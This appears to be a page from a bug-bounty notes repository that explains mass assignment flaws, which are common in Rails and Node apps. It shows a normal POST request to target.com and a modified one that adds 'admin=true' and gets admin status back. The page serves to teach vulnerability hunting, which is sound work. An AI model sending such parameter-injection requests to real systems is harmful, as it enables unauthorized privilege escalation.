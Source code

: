 

## Introduction

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Mass%20Assignment.md#introduction)

Occurs when an app allows a user to manually add parameters in an HTTP Request & the app process value of these parameters when processing the HTTP Request & it affects the response that is returned to the user. Usually occurs in Ruby on Rails / NodeJS

## How to exploit

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Mass%20Assignment.md#how-to-exploit)

- Normal request

```
POST /editdata HTTP/1.1
Host: target.com
...

username=daffa
```

The response

```
HTTP/1.1 200 OK
...

{"status":"success","username":"daffainfo","isAdmin":"false"}
```

- Modified Request

```
POST /editdata HTTP/1.1
Host: target.com
...

username=daffa&admin=true
```

```
HTTP/1.1 200 OK
...

{"status":"success","username":"daffainfo","isAdmin":"true"}
```

## References

[](https://github.com/daffainfo/AllAboutBugBounty/blob/master/Mass%20Assignment.md#references)

- [Pentester Academy](https://blog.pentesteracademy.com/hunting-for-mass-assignment-56ed73095eda)
